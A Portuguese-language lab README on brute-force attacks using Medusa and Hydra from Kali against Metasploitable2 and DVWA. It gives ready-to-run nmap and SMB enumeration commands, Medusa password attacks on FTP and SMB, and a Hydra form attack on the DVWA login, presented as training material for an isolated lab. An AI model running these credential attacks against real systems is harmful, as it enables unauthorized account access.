 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

![Texto alternativo](images/imagem1.PNG)





